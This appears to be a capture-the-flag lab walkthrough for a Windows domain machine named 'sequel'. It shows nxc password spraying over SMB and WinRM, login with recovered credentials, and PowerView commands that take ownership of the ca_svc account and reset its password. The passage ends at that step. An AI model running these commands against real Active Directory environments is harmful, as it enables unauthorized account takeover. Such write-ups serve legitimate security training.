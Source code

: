 <img width="660" height="153" alt="image" src="https://github.com/user-attachments/assets/4bd87714-64f4-4b57-9f68-832e849acb63" />


### I actualized the user.txt file and try the new passwd on all of the users

```
nxc smb sequel.htb0 -u users.txt -p 'WqSZAF6CysDQbGb3'
```

<img width="1307" height="230" alt="image" src="https://github.com/user-attachments/assets/48a880ee-d522-4323-b5e9-c9add84c2c63" />



### And on the winrm

```
nxc winrm sequel.htb0 -u users.txt -p 'WqSZAF6CysDQbGb3' 
```

<img width="1405" height="692" alt="image" src="https://github.com/user-attachments/assets/4f99bd73-1e73-40ee-b426-f68854f9a513" />


### We connect to ryan 

```
ryan:WqSZAF6CysDQbGb3
```
<img width="1184" height="185" alt="image" src="https://github.com/user-attachments/assets/7b906c1b-dcf2-4afd-beea-29eae2186963" />


### And we find the user flag


<img width="696" height="271" alt="image" src="https://github.com/user-attachments/assets/0733dc3a-3c7a-4f28-88c7-8785a53438fa" />



### We can see ryan have write permision on ca_svc


<img width="1266" height="397" alt="image" src="https://github.com/user-attachments/assets/69760ab7-0661-48ed-9b98-4fe2d6e18576" />

# Root

### I downlad powerview and uploaded on the box

```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

### After that i reseted the passwd for the ca_svc with ryan permison and change it to "Password123@"
```
Import-Module ./PowerView.ps1
Set-DomainObjectOwner -Identity "ca_svc" -OwnerIdentity "ryan"
Add-DomainObjectAcl -TargetIdentity "ca_svc" -Rights ResetPassword -PrincipalIdentity "ryan"
$pass = ConvertTo-SecureString "Password123@" -AsPlainText -Force
Set-DomainUserPassword -Identity "ca_svc" -AccountPassword $pass
Set-DomainObjectOwner -Identity "ca_svc" -OwnerIdentity "ryan"
```
